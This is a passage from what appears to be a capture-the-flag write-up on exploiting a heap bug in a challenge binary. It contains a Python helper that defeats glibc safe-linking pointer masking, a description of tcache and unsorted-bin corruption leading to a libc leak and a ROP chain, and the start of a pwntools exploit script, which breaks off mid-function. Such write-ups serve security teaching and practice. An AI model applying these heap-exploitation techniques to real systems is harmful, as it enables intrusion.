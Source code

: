 ```python
def mask(p, l):
    return p ^ (l >> 12)

def unmask(p, l):
    return mask(p, l)

# next_addr = heap address where fd pointer of chunk will be stored
def new_ptr_addr(next_addr):
    sz = 0x40

    while sz < 0x400:
        masked = mask(next_addr+sz, next_addr)
        lb = masked & 0xff
        masked = (masked >> 16) << 16
        masked += lb

        new_addr = unmask(masked, next_addr)

        if new_addr > next_addr:
            print(f"New addr: {hex(new_addr)} sz: {sz}")
            return sz, new_addr

        sz += 0x10

    return 0, 0
```
I then created a fake chunk in the region where the corrupted `fd` pointer points to and freed it into the unsorted bin. This freed fake chunk overlapped with chunks stored in tcache bins. I used this to leak the address off `libc` and to corrupt the tcache freelist again in order to allocate a chunk which overlaps with the `function table` chunk. Afterwards I overwrote the function pointer of the `exit` option with `fgets` and overflowed the stack with a ropchain. As we use `fgets` in this case, the limitation of no nullbytes doesn't hold anymore.

### Exploit
```python
def create(fname, content, csz, fsz= 0):
    io.sendlineafter(">", str(0))
    if fsz > 0:
        io.sendlineafter("size:", str(fsz))
    else:
        io.sendlineafter("size:", str(len(fname)))
    io.sendlineafter("name: ", fname)
    io.sendlineafter("len: ", str(csz))
    io.sendlineafter("contents: ", content)

def rename(fname):
    io.sendlineafter(">", str(1))
    io.sendlineafter("size:", str(len(fname)))
    io.sendlineafter("name: ", fname)

def show(fname,fsz=0):
    io.sendlineafter(">", str(2))
    if fsz > 0:
        io.sendlineafter("size:", str(fsz))
    else:
        io.sendlineafter("size:", str(len(fname)))
    io.sendlineafter("name: ", fname)

def remove(fname, fsz=0):
    io.sendlineafter(">", str(3))
    if fsz > 0:
        io.sendlineafter("size:", str(fsz))
    else:
```